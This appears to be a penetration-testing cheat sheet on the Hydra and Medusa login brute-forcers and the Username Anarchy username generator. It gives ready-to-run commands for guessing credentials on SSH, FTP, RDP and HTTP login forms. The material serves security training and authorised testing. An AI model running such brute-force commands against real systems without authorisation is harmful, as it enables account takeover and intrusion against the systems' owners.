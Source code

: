 ## Brute-Forcing Tools
### Hydra
Fast network login cracker. Supports numerous protocols. Uses parallel connections for speed. Flexible and adaptable. Relatively easy to use.
```bash
hydra [-l LOGIN|-L FILE] [-p PASS|-P FILE] [-C FILE] -m MODULE [service://server[:PORT][/OPT]]
```

#### Hydra Service
| Service/Protocol | Description | Example Command |
|------------------|-------------|-----------------|
| ftp | File Transfer Protocol (FTP). Used to brute-force login credentials for FTP services, commonly used to transfer files over a network. | `hydra -l admin -P /path/to/password_list.txt ftp://192.168.1.100` |
| ssh | Secure Shell (SSH). Targets SSH services to brute-force credentials, commonly used for secure remote login to systems. | `hydra -l root -P /path/to/password_list.txt ssh://192.168.1.100` |
| http-get/post | HTTP Web Services. Used to brute-force login credentials for HTTP web login forms using either GET or POST requests. | `hydra -l admin -P /path/to/password_list.txt 127.0.0.1 http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect"` |

### Medusa
Fast, massively parallel, modular login brute-forcer. Supports a wide array of services.
```bash
medusa [-h host|-H file] [-u username|-U file] [-p password|-P file] [-C file] -M module [OPT]
```

#### Medusa Module
| Module | Service/Protocol | Description | Example Command |
|--------|------------------|-------------|-----------------|
| ssh | Secure Shell (SSH) | Brute force SSH login for the admin user. | `medusa -h 192.168.1.100 -u admin -P passwords.txt -M ssh` |
| ftp | File Transfer Protocol (FTP) | Brute force FTP with multiple usernames and passwords using 5 parallel threads. | `medusa -h 192.168.1.100 -U users.txt -P passwords.txt -M ftp -t 5` |
| rdp | Remote Desktop Protocol (RDP) | Brute force RDP login. | `medusa -h 192.168.1.100 -u admin -P passwords.txt -M rdp` |
| http-get | HTTP Web Services | Brute force HTTP Basic Authentication. | `medusa -h www.example.com -U users.txt -P passwords.txt -M http -m GET` |
| ssh | Secure Shell (SSH) | Stop after the first valid SSH login is found. | `medusa -h 192.168.1.100 -u admin -P passwords.txt -M ssh -f` |

## Custom Wordlists
### Username Anarchy
Generates potential usernames based on a target's name.
| Command | Description |
|---------|-------------|
| `username-anarchy Jane Smith` | Generate possible usernames for "Jane Smith" |
| `username-anarchy -i names.txt` | Use a file (names.txt) with names for input. Can handle space, CSV, or TAB delimited names. |
| `username-anarchy -a --country us` | Automatically generate usernames using common names from the US dataset. |
| `username-anarchy -l` | List available username format plugins. |
| `username-anarchy -f format1,format2` | Use specific format plugins for username generation (comma-separated). |
| `username-anarchy -@ example.com` | Append @example.com as a suffix to each username. |
| `username-anarchy --case-insensitive` | Generate usernames in case-insensitive (lowercase) format. |
